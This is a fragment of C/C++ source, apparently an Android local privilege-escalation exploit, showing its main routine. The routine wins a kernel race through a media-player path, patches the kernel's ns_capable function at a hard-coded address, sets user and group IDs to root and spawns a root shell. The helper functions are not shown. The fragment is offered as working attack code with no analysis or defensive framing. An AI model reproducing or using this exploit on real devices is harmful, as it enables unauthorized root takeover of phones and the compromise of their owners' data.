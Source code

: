 ```c
	create_test_dir();
	begin_watch();
}

int main()
{
	createAllocThread();
	nice(-20);
	MediaPlayerBase* mediaPlayerBase = new MediaPlayerBase();
	mediaPlayer = mediaPlayerBase->creatMediaPlayer();
	init_reply_data();
	init_test_dir();
	int max_fds = maximize_fd_limit();
	printf("[+] current pid:%d, max_fd:%d, descript:%lx\n", getpid(), max_fds, get_fack_block(0x80000000));
	put_baits();
	fillOtherCpu();
	raceTimes();
	printf("[+] race finish\n");
	fillFlag = 1;
	stop = 1;
	unsigned long ns_capable_addr  = 0xffffffc0000b1024 - 0xffffffc000000000 + 0xffffffc200000000;
        kernel_patch_ns_capable((unsigned long *) ns_capable_addr);
	if(setreuid(0, 0) || setregid(0, 0)){
       		printf("[-] setgid failed\n");
		return -1;
        }
	if (getuid() == 0)
        {
                printf("[+] spawn a root shell\n");
                execl("/system/bin/sh", "/system/bin/sh", NULL);
        }
	
	delete mediaPlayerBase;
	return 0;
}
```






